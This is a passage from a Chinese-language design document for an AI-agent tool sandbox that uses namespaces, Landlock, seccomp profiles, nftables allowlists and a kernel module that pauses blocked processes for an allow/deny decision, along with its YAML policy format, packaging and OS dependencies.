2. 运行中 SANDBOX_NET_REPORT_DNS → 动态将解析出的 IP 加入 @allowed
3. close(fd) → net_destroy → 删除 nftables + 删除 veth + 解除 netns bind mount + 回收 env_id bitmap
4. 子 netns 销毁 → 内部 nftables 规则自动回收

#### 4.2.4 系统调用过滤

dyn-sandbox 二进制内置预定义 seccomp-bpf profile：

| profile | 覆盖工具 | syscall 数 | 说明 |
|---------|---------|-----------|------|
| default | 未匹配工具 | ~25 | 保守白名单：read, write, openat, close, mmap, brk, exit_group, stat 等 |
| file_access | 文件读写工具 | ~18 | read/write/openat/close + 信号 + ioctl |
| script | shell/Python 脚本执行 | ~70 | default 基础上 +execve, clone, socket, connect, epoll, futex 等 |

- 默认动作 kill（违反策略 → 进程被 SIGSYS 杀死）
- 不做 syscall 参数级别过滤
- 工具需要更宽 profile 时升档（file_access → script），而非逐个追加

#### 4.2.5 权限模型

- 使用 user ns 获取内部 capability，无需 root / setuid
- `raw_clone(CLONE_NEWUSER)`（非 root 时）→ 子进程内部 uid=0，获得全套 cap（仅 ns 内有效）
- 父进程写子进程的 /proc/pid/uid_map + gid_map 完成映射
- 所有 mount / pivot_root 等需要 CAP_SYS_ADMIN 的操作在子进程 user ns 内完成
- execve 前 drop 所有 cap + NO_NEW_PRIVS

**安全边界：**

| 检查维度 | user ns 视角 | init ns 视角 |
|---------|-------------|-------------|
| uid | 0 (root) | 1000 (testuser) |
| cap | 全 | 无 |
| 文件 DAC | 无限制 | 只能访问 testuser 的文件 |

#### 4.2.6 运行时策略放宽

当 Landlock 拒绝文件操作时（openat, unlink, rmdir, mkdirat 返回 EACCES）：

1. **kretprobe handler** 捕获 EACCES
   - 记录被拦文件路径到 instance->state.blocked_path
   - 将 blocked 事件推入字符设备队列
   - 向当前进程发送 SIGSTOP（暂停子进程）

2. **父进程 poll 监护循环**（dyn-sandbox 父进程上下文）
   - `poll` 监听 signalfd(SIGCHLD)、child stdout/stderr、sandbox_fd、stdin
   - sandbox_fd 可读时 `ioctl(SANDBOX_FILE_GET_BLOCKED)` 取出被拦路径
   - stderr 输出 `AUTH_REQ:<filename>:<resolved>` 提示
   - 调用 `decide_file_action()`：从 stdin 读一行回复并转换为决策
     - 仅 `ALLOW` / `allow`（去首尾空白后完全匹配）放行，其余（含 EOF）一律 DENY，默认 fail-closed
   - `ioctl(SANDBOX_FILE_DECISION, DECISION_ALLOW/DENY)` 通知内核
   - 内核发送 SIGCONT 恢复子进程

3. **子进程恢复**
   - 收到 SIGCONT 后继续执行
   - 被拦操作重试 → 成功（ALLOW）或被拒（DENY 返回 EACCES）

#### 4.2.7 策略语言

YAML 格式定义，每种 tool 对应一个策略文件。

```yaml
name: write_file
version: 1

mount:
  - type: bind
    src: /usr
    dest: /usr
    readonly: true
  - type: tmpfs
    dest: /tmp
    size: "100MB"

landlock:
  - path: /usr/bin/**
    access: [execute, read]
  - path: /usr/lib/**
    access: [read]
  - path: /tmp/**
    access: [read, write, remove, truncate]

network:
  enabled: true            # false = 不给网卡，完全无网络
  domains:                  # DNS 域名白名单
    - api.github.com
  cidrs:                    # IP CIDR 白名单
    - 10.0.0.0/8

seccomp: script              # 预置 profile: default / file_access / script
  # 或自定义 syscall 列表:
  # seccomp:
  #   syscalls:
  #     - read
  #     - write
  #     - openat
```

| 字段 | 类型 | 说明 |
|------|------|------|
| `enabled` | 布尔 | `false` = 不创建 veth 网卡，完全无网络。默认 true |
| `domains` | 字符串列表 | DNS 域名白名单，dyn-sandbox-dns 仅放行匹配域名 |
| `cidrs` | 字符串列表 | IP CIDR 白名单，直接加入 nftables 放行集合 |

### 4.3 交付视图

系统通过一个rpm包形式交付：

| RPM 包 | 内容 | 安装位置 | 说明 |
|--------|------|----------|------|
| `dyn-sandboxner` | dyn-sandbox 沙箱二进制 | `/usr/bin/dyn-sandbox` | 核心二进制，普通用户可执行 |
| | systemd service | `/usr/lib/systemd/system/dyn-sandboxner.service` | 启动时加载 dyn_sandbox.ko + 守护 dyn-sandbox-dns 进程 |
| | dyn_sandbox.ko 内核模块 | `/usr/lib/modules/$(uname -r)/dyn_sandbox.ko` | 统一内核模块，网络管理 + 文件放宽 |
| | dyn-sandbox-dns DNS 代理 | `/usr/bin/dyn-sandbox-dns` | 处理子 netns DNS 查询，动态放行域名 |
| | YAML 策略模板 | `/etc/sandbox/policies/*.yaml` | 预置各 tool 的策略模板 |

**部署架构**

```text
┌───────────────────────────────────────────────────────────────────────┐
│                              物理机 / Host                             │
│                                                                       │
│  ┌───────────────────────────────────────────────────────────────┐    │
│  │                    dyn-sandboxner RPM                         │    │
│  │  ┌────────────────────────────────────────────────────────┐   │    │
│  │  │ dyn-sandboxner.service (systemd)                       │   │    │
│  │  └────────────────────────────────────────────────────────┘   │    │
│  │  ┌───────────────┐  ┌───────────────┐  ┌──────────────────┐   │    │
│  │  │ dyn-sandbox   │  │ dyn-sandbox-dns     │  │ dyn_sandbox.ko       │   │    │
│  │  └───────────────┘  └───────────────┘  └──────────────────┘   │    │
│  └───────────────────────────────────────────────────────────────┘    │
│                                                                       │
│  ┌───────────────────────────────────────────────────────────────┐    │
│  │  虚拟机（VM）                                                   │    │
│  │  ┌─────────────────────────────────────────────────────────┐  │    │
│  │  │  dyn-sandboxner RPM（预装于 VM 镜像）                     │  │    │
│  │  └─────────────────────────────────────────────────────────┘  │    │
│  └───────────────────────────────────────────────────────────────┘    │
└───────────────────────────────────────────────────────────────────────┘
```

**首次部署流程**

1. 安装 RPM 包：`rpm -i dyn-sandboxner.rpm`
2. 启动服务：`systemctl start dyn-sandboxner`
3. 设置开机自启：`systemctl enable dyn-sandboxner`
4. 确认内核版本和配置项满足要求
5. 对接各个 Agent runtime

### 4.4 各Agent集成方式
**xiaoO**

插件 pre tool call，hook中修改cmdline对接 dyn-sandbox？策略从moss中获取，需要agent runtime传递

**openclaw**

开发 tool 执行后端，对接dyn-sandbox

### 4.5 与现有沙箱方案对比

| 方案 | 文件隔离 | 文件访问控制 | 网络隔离 | 网络访问控制 | 运行时放宽 | 非 root |
|------|---------|-----------|---------|-----------|----------|---------|
| 容器（Docker） | ✅ | ❌ | ✅ | ❌ | ❌ | ❌（需 daemon） |
| bwrap | ✅ mount ns | ❌ | ✅ netns | ❌ | ❌ | ✅ |
| nsjail | ✅ | ❌ | ✅ | ❌ | ❌ | ❌（需 setuid） |
| ptrace 沙箱 | ✅ | ✅ | ✅ | ✅ | ✅ | ✅ |
| **本方案** | ✅ **mount ns** | ✅ **文件粒度白名单** | ✅ **netns+nftables** | ✅ **IP:端口+域名** | ✅**文件动态提权** | ✅ |

## 5. 可拓展功能

以下功能在当前 MVP 范围内暂不实现，根据实际使用需求可后续逐步纳入。

| 特性 | 原因 | 触发条件 |
|------|------|---------|
| 网络运行时放宽（dyn_sandbox.ko 升级） | 网络 REJECT 是同步的，不需要 kprobe 路径 | 出现需要在运行时动态放行 IP:端口的场景 |
| 资源限制（cgroup/ulimit） | 独立子系统，需设计 cgroup 层次和接口 | 需要防御 fork bomb、磁盘填满、内存耗尽时 |
| 父进程daemon化 | 减少进程数量，提升性能 | 所有场景 |

## 6. 系统依赖

### 6.1 对 Agent runtime 的依赖

沙箱自身不生成策略，依赖 Agent runtime 提供策略来源和运行时决策支持。

| 依赖 | 说明 | 涉及场景 |
|------|------|---------|
| **策略下发** | 通过 CLI 参数或 YAML 策略文件传入 mount、Landlock、seccomp、网络规则 | tool运行 |
| **dyn-sandbox 执行与输出处理** | 调用 `exec` 启动 dyn-sandbox，传入策略参数和 tool 命令；<br>读取 stdout（tool 正常输出）、stderr（错误/运行时放宽请求）和退出码 | tool运行 |
| **运行时决策** | 当运行时放宽流程触发时，Agent runtime 需要：<br>1. 从 stderr 读取被拦路径<br>2. 根据上下文判断是否允许<br>3. 将决策结果（允许/拒绝）发回给 tool 进程（通过 stdin 或管道） | 运行时放宽 |

### 6.2 对 OS 的依赖

| 依赖 | 版本/说明 | 用途 | openEuler 24.03 (LTS-SP4) |
|------|---------|------|---------|
| Linux 内核 | >= 5.13 | Landlock ABI 1，提供文件访问控制 | ✅ 6.6.0 |
| `CONFIG_USER_NS=y` | 内核配置 | user ns 非 root 能力获取 | ✅ |
| `CONFIG_NET_NS=y` | 内核配置 | 子 netns 网络隔离 | ✅ |
| `CONFIG_SECCOMP=y`<br>`CONFIG_SECCOMP_FILTER=y` | 内核配置 | seccomp-bpf 系统调用过滤 | ✅ |
| `CONFIG_SECURITY_LANDLOCK=y` | 内核配置 | Landlock LSM 文件权限控制 | ❌ **未启用** |
| `CONFIG_KPROBES=y` | 内核配置 | kprobe 运行时放宽机制 | ✅ |
| `CONFIG_NF_TABLES=m` | 内核配置 | 子 netns 内 nftables 规则 | ✅ |
| `nsenter`（util-linux） | 用户态工具 | dyn_sandbox.ko 在子 netns 内执行 nft 命令 | ✅ |
| `nft`（nftables） | 用户态工具 | 子 netns 内配置 nftables 规则 | ✅ |
| `libldns` | 运行时库 | dyn-sandbox-dns DNS 报文解析 | ✅ 1.8.3 |

## 附录

### A. 术语表

| 术语 | 定义 |
|------|------|
| tool | AI agent 可以执行的一个操作，如 read_file, bash, web_search |
| dyn-sandbox | 核心二进制，接收 CLI 策略参数，创建沙箱进程，执行 tool |
| 策略语言 | YAML 格式的策略定义，包含 mount, landlock, network, seccomp 维度 |
| pivot_root | 将当前进程的根文件系统切换到新目录 |
| mount policy | 定义沙箱进程"能看到"哪些文件系统路径 |
| Landlock policy | 在 mount policy 的可见集之上，精确定义允许操作 |
| mount ns | Mount namespace，隔离进程的挂载点视图 |
| netns | Network namespace，隔离进程的网络栈 |
| user ns | User namespace，隔离 UID/GID 映射 |
| veth pair | 虚拟以太网设备对，用于两个 netns 间通信 |
| nftables | Linux 内核的包过滤框架 |
| seccomp-bpf | 通过 BPF 过滤器限制可用系统调用 |
| kretprobe | 内核 kprobe，函数返回时触发 handler |
| SIGSTOP/SIGCONT | linux 信号，挂起恢复进程 |
| landlock_restrict_self() | Landlock 系统调用，将规则集应用到调用进程，不可逆 |


